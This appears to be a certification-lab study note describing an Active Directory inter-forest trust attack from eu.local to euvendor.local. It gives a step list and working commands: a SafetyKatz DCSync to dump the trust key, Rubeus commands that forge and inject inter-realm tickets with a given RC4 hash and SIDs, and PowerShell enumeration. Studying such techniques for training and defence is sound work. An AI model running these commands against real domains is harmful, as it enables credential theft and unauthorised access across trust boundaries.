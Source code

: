 # Methodology
>1. Dump the trust key of the child domain.
>2. Check if SID Filtering is enabled.
>3. Forge an inter-forest ticket.
>4. Inject the ticket. 
>5. Enumerate group RID > 1000 on the target domain.
>6. Forge an inter-forest ticket with special SIDS.
>7. Inject the ticket


>**ℹ️ Info:**
>In this example we go from `eu.local` to `euvendor.local` .

---
# Powershell
>**ℹ️ Info:**
>
> Remember to follow the [PowerShell scripts methodology](Notes/Certifications/CRTE/00%20-%20Miscellaneous/01-%20Methodology.md#PowerShell%20Scripts).

## AD Module
**Check if SID Filtering is enabled:**
```powershell
Get-ADTrust -Filter *
```

**Look for groups with RID higher than 1000 in the target machine:**
```powershell
Get-ADGroup -Filter 'SID -ge "S-1-5-21-4066061358-3942393892-617142613-1000"' -Server euvendor.local
```

---
# Binaries
>**ℹ️ Info:**
>
> Remember to follow the [binaries methodology](Notes/Certifications/CRTE/00%20-%20Miscellaneous/01-%20Methodology.md#Binaries).

## SafetyKatz
**Dump trust key for the inter-forest trust:**
```cmd
SafetyKatz.exe '"lsadump::dcsync /user:eu\euvendor$"'
```

## Rubeus

**Forge an inter-realm TGT:**
```cmd
Rubeus.exe silver /user:Administrator /ldap /service:krbtgt/eu.local /rc4:b96659c7b2109d2e63e6de676d48646c /sid:S-1-5-21-3657428294-2017276338-1274645009 /nowrap 
```

**Inject the ticket:**
```cmd
Rubeus.exe asktgs /ticket:doIFEzCCBQ /service:CIFS/euvendor-dc.euvendor.local /dc:euvendordc.euvendor.local /ptt
```

>**ℹ️ Info:**
>We can only access specific resources that are explicitly shared!

**Forge a TGS using inter-realm TGT:**
```cmd
Rubeus.exe asktgs /service:http/euvendornet.euvendor.local /dc:euvendor-dc.euvendor.local /ptt /ticket:doIFOzCCBT...
```